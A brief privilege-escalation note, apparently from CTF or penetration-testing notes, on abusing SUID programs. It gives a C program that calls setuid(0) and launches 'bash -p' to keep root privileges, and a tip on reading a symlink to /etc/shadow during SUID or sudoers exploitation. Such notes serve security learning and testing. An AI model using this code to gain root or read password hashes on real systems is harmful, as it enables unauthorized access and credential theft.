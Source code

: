 # SUID Bit

Good list of things to look out for in SUID programs. Seriously, check it out:

[https://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf](https://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf)

If you want to get a root shell when exploiting SUID programs, then note that by default, bash and sh drop suid privileges. Use the `-p` flag to avoid dropping privileges (only works for root).

Example C program for exploitation:

```
#include <stdlib.h>
#include <unistd.h>
int main(int arc, int** argv)
{
    setuid(0);
    system("bash -p");
    return 0;
}
```

**Symlink tip**: For some reason (presumably security reasons), you cannot read a symlink to `/etc/shadow` (and perhaps other files?) from the `/tmp` or `/dev/shm` folders, even as root, if that symlink wasn’t created by you. But you can do it from any user’s home directory, for example. This can be important when exploiting suid or sudoers misconfigurations using symlinks, for example.
